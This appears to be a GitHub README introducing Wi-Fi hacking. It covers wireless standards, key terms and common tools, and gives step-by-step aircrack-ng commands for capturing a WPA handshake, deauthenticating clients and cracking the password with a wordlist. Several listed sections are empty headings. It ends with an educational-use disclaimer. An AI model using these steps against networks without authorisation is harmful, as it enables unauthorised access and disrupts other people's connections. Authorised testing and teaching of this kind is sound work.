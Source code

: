 # Wi-Fi Hacking Guide

### Table of Contents

1. Introduction to Wi-Fi


2. Wi-Fi Generations & Key Terminologies


3. Networking Essentials for Wi-Fi Hacking


4. Tools for Wi-Fi Hacking

Aircrack-ng Suite (Complete Guide)



5. Best Wi-Fi Adapters for Hacking


6. Wi-Fi Attack Scenarios


7. External Resources




---

Introduction to Wi-Fi

Wi-Fi (Wireless Fidelity) is a technology that enables devices to connect wirelessly to a network using radio waves. It operates on different frequency bands (2.4GHz & 5GHz) and follows IEEE 802.11 standards.

Wi-Fi Generations & Key Terminologies

Wi-Fi Generations

802.11b: First widely adopted Wi-Fi standard (2.4GHz, 11Mbps).

802.11a: Operates on 5GHz, faster but less range.

802.11g: Improved speed at 2.4GHz (54Mbps).

802.11n (Wi-Fi 4): Supports both 2.4GHz & 5GHz, higher speeds (600Mbps).

802.11ac (Wi-Fi 5): Optimized for 5GHz, gigabit speeds.

802.11ax (Wi-Fi 6): Better efficiency, supports multiple devices.


Key Terminologies

SSID (Service Set Identifier): Name of a Wi-Fi network.

BSSID (Basic Service Set Identifier): MAC address of the router/AP.

WEP (Wired Equivalent Privacy): Insecure encryption method.

WPA/WPA2/WPA3 (Wi-Fi Protected Access): Secure encryption protocols.

Monitor Mode: Allows packet sniffing on Wi-Fi networks.


Networking Essentials for Wi-Fi Hacking

Understanding the following networking concepts is crucial:

IP Addressing: Identifying devices on a network.

MAC Address: Unique ID for network interfaces.

DHCP & DNS: Assigns and resolves network addresses.

Subnetting: Organizing IP address ranges.

OSI Model: Standard framework for network communication.


Tools for Wi-Fi Hacking

Popular Tools:

Aircrack-ng: Packet capturing & password cracking.

Kismet: Wireless network detector & sniffer.

Wireshark: Network protocol analyzer.

Reaver: WPS attack tool.

Wifite: Automated Wi-Fi attack suite.


Aircrack-ng Suite (Complete Guide)

Installation (Debian-based Linux):

sudo apt update
sudo apt install aircrack-ng

Capturing Handshakes:

1. Enable Monitor Mode:

airmon-ng start wlan0


2. Scan for networks:

airodump-ng wlan0mon


3. Capture handshake:

airodump-ng --bssid [BSSID] -c [CH] -w capture wlan0mon


4. Deauth to force handshake:

aireplay-ng --deauth 10 -a [BSSID] wlan0mon


5. Crack Password:

aircrack-ng -w [WORDLIST] -b [BSSID] capture.cap



Best Wi-Fi Adapters for Hacking

Wi-Fi Attack Scenarios

External Resources

Aircrack-ng Documentation

Kali Linux Wireless Attacks Guide

Wi-Fi Security Research Papers



---

Disclaimer: This guide is for educational purposes only. Unauthorized access to networks is illegal. Always get permission before performing security tests.


